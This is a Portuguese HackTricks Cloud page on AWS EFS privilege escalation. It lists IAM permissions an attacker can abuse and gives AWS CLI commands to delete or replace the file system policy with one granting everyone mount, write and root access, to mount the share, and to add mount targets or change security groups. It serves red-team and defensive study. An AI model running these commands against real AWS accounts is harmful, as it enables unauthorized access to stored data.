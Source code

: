 # AWS - EFS Privesc

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## EFS

Mais **informações sobre EFS** em:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Lembre-se de que, para montar um EFS, você precisa estar em uma sub-rede onde o EFS está exposto e ter acesso a ele (grupos de segurança). Se isso estiver acontecendo, por padrão, você sempre poderá montá-lo, no entanto, se estiver protegido por políticas IAM, você precisa ter as permissões extras mencionadas aqui para acessá-lo.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Com qualquer uma dessas permissões, um atacante pode **alterar a política do sistema de arquivos** para **dar acesso a você** a ele, ou simplesmente **excluí-lo** para que o **acesso padrão** seja concedido.

Para excluir a política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para alterar isso:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Com essa permissão, um invasor poderá **montar o EFS**. Se a permissão de escrita não for concedida por padrão a todos que podem montar o EFS, ele terá apenas **acesso de leitura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
As permissões adicionais `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` podem ser usadas para **escrever** dentro do sistema de arquivos após ele ser montado e para **acessar** esse sistema de arquivos **como root**.

**Impacto Potencial:** Escalação de privilégios indireta ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:CreateMountTarget`

Se um atacante estiver dentro de uma **sub-rede** onde **nenhum alvo de montagem** do EFS existe, ele poderia simplesmente **criar um em sua sub-rede** com esse privilégio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Em um cenário em que um atacante descobre que o EFS tem um alvo de montagem em sua sub-rede, mas **nenhum grupo de segurança está permitindo o tráfego**, ele poderia simplesmente **alterar isso modificando os grupos de segurança selecionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.



<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

